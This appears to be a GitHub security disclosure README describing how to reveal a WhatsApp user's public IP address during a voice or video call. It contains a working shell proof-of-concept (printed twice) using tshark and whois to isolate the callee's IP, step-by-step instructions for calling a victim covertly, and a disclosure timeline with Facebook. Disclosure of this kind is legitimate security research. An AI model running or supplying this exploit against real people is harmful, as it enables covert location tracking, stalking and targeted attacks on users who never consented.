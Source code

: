 ## Leak the IP address of target whatsapp user

### Disclaimer

This program is for Educational purpose ONLY. Do not use it without permission. The usual disclaimer applies, especially the fact that me (bhdresh) is not liable for any damages caused by direct or indirect use of the information or functionality provided by these programs. The author or any Internet provider bears NO responsibility for content or misuse of these programs or any derivatives thereof. By using this program you accept the fact that any damage (dataloss, system crash, system compromise, etc.) caused by the use of these programs is not bhdresh's responsibility.

Finally, this is a personal development, please respect its philosophy and don't use it for bad things!

### Description/Impact

#### Complete Details

Latest version of whatsapp application on all platforms is vulnerable to remote whatsapp user public IP disclosure.

It is observed that during a whatsapp (voice / video) call, application on caller side tries to establish a direct connection with the public IP address of recipient device. By filtering the Facebook and WhatsApp server IP addresses from the destination hosts, it is possible to reveal the correct public IP address of the target whatsapp user without his knowledge.

Following is a quick script to exploit this vulnerability,

--------------------------

#!/bin/sh

filter=`tshark -i eth0 -T fields -f "udp" -e ip.dst -Y "ip.dst!=192.168.0.0/16 and ip.dst!=10.0.0.0/8 and ip.dst!=172.16.0.0/12" -c 100 |sort -u |xargs|sed "s/ / and ip.dst!=/g" |sed "s/^/ip.dst!=/g"`

echo "Press Enter and call your target."

read line

tshark -i eth0 -l -T fields -f "udp" -e ip.dst -Y "$filter" -Y "ip.dst!=192.168.0.0/16 and ip.dst!=10.0.0.0/8 and ip.dst!=172.16.0.0/12" | while read line
do
whois $line > /tmp/b

filter=`cat /tmp/b |xargs| egrep -iv "facebook|google"|wc -l`

if [ "$filter" -gt 0 ] ; then
targetinfo=`cat /tmp/b| egrep -iw "OrgName:|NetName:|Country:"`
echo $line --- $targetinfo
fi
done


--------------------------

#### Impact


Possibility to map whatsapp users with their public IP will not just reveal whatsapp users' location information but can also be misused to track their physical movement by maintaining location history. Such direct mapping between user to IP information can also be misused to track users' surfing habits and to influence him.

Further, the public IP could be exploited to launch targeted attacks towards whatsapp user home or office.

### Repro Steps

#### Setup

Users: UserA is has whatsapp detail of UserB

Environment: n/a

Browser: n/a

App version: <=latest version of whatsapp application on any platform

OS: All platforms except web

Description: UserA makes a whatsapp call to UserB and captures his public IP information without UserB's knowledge. Video PoC for better understanding of steps: 



#### Steps

Step 1: Start WiFi hotspot on attacker machine and connect attacker phone to attacker SSID

Step 2: Start the PoC script (below) on attacker machine which is now acting as a router for attacker phone


--------------------------

#!/bin/sh

filter=`tshark -i eth0 -T fields -f "udp" -e ip.dst -Y "ip.dst!=192.168.0.0/16 and ip.dst!=10.0.0.0/8 and ip.dst!=172.16.0.0/12" -c 100 |sort -u |xargs|sed "s/ / and ip.dst!=/g" |sed "s/^/ip.dst!=/g"`

echo "Press Enter and call your target."

read line

tshark -i eth0 -l -T fields -f "udp" -e ip.dst -Y "$filter" -Y "ip.dst!=192.168.0.0/16 and ip.dst!=10.0.0.0/8 and ip.dst!=172.16.0.0/12" | while read line
do
whois $line > /tmp/b

filter=`cat /tmp/b |xargs| egrep -iv "facebook|google"|wc -l`

if [ "$filter" -gt 0 ] ; then
targetinfo=`cat /tmp/b| egrep -iw "OrgName:|NetName:|Country:"`
echo $line --- $targetinfo
fi
done


--------------------------


Step 3: Call any whatsapp user randomly to capture the server IP addresses to filter

Step 4: Call victim on his whatsapp

Step 5: Disconnect the call once established

Step 6: Script will reveal the public IP address of the target

Step 7: Validate the public IP address on target phone

### Disclosure timeline

1) October 14, 2020 - Reported vulnerability to Facebook
2) October 14, 2020 - Response from Facebook (Thank you for your report. In this case, the issue you've described is actually just intended functionality and therefore doesn't qualify for a bounty.)
3) October 14, 2020 - Reply to Facebook (could you please let me know how WhatsApp users could mitigate this accidental disclosure of his IP and potential private information about his location?)
4) October 16, 2020 - Follow up email
5) October 20, 2020 - Response from Facebook (Due to the nature of the peer to peer protocol, the best methods for users who may be concerned about accidental disclosure is to take a proactive approach. This can include limiting calls to trusted users or using a VPN.)
6) January 18, 2021 - Requesting permission for public disclosure (In such a case, is it fine if I publish this finding with public disclosure?)
7) January 18, 2021 - Response from Facebook (The decision to publish is entirely yours. There are no penalties for doing so.)
8) March 20, 2021 - Further communication with Facebook (During my research have noticed that Signal has introduced a feature to relay calls through the signal server to void revealing IP addresses....Could you please recheck the approach to limit calls to trusted users or using a VPN? I believe using VPN all the time is not a feasible solution to protect the location privacy.)
9) March 23, 2021 - Response from Facebook (At this time we are content with our current implementation of WhatsApp calling.)
10) Juluy 03, 2021 - Public disclosure

